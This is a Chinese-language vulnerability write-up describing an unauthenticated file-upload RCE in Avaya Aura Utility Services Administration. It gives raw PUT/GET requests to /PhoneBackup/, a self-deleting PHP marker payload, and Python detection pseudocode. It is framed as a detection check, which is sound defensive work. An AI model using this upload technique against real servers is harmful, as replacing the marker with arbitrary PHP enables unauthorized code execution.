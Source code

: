 # Avaya Aura Utility Services Administration 远程代码执行漏洞（avaya-aura-rce）

## 漏洞简介
Avaya Aura Utility Services Administration 存在远程代码执行（RCE）漏洞，攻击者可在无需认证的情况下上传恶意 PHP 文件并远程执行任意代码，危害极大。

## 影响范围
- 受影响产品：Avaya Aura Utility Services Administration

## 漏洞原理
攻击者可通过 PUT 方法上传恶意 PHP 文件到 `/PhoneBackup/` 目录，随后通过 GET 请求访问该文件，实现任意代码执行。

## 利用方式与攻击流程
1. 攻击者通过 PUT 方法上传恶意 PHP 文件到 `/PhoneBackup/` 目录。
2. 通过 GET 请求访问上传的 PHP 文件，触发代码执行。

## 探测原理与流程
### 请求包示例
1. 上传恶意 PHP 文件：
```http
PUT /PhoneBackup/poc.php HTTP/1.1
Host: target.com
User-Agent: AVAYA
Connection: close

<?php print('avaya-aura-rce');unlink(__FILE__); ?>
```
2. 访问上传的 PHP 文件：
```http
GET /PhoneBackup/poc.php HTTP/1.1
Host: target.com
User-Agent: AVAYA
Connection: close
```

### 响应与判定逻辑
- 第一步响应状态码为 201。
- 第二步响应体包含 `avaya-aura-rce`。

### 伪代码
```python
# 步骤1：上传 PHP 文件
resp1 = requests.put('http://target.com/PhoneBackup/poc.php', data="<?php print('avaya-aura-rce');unlink(__FILE__); ?>", headers={"User-Agent": "AVAYA"})
# 步骤2：访问 PHP 文件
resp2 = requests.get('http://target.com/PhoneBackup/poc.php', headers={"User-Agent": "AVAYA"})
if resp1.status_code == 201 and 'avaya-aura-rce' in resp2.text:
    print('存在 RCE 漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[上传恶意 PHP 文件]
    B --> C[访问上传的 PHP 文件]
    C --> D[检查响应内容]
    D --> E{是否包含 avaya-aura-rce?}
    E -- 否 --> F[不存在漏洞]
    E -- 是 --> G[存在 RCE 漏洞]
```

## 参考链接
- [Assetnote Blog 漏洞分析](https://blog.assetnote.io/2023/02/01/rce-in-avaya-aura/)
- [Avaya 官方公告](https://download.avaya.com/css/public/documents/101076366) 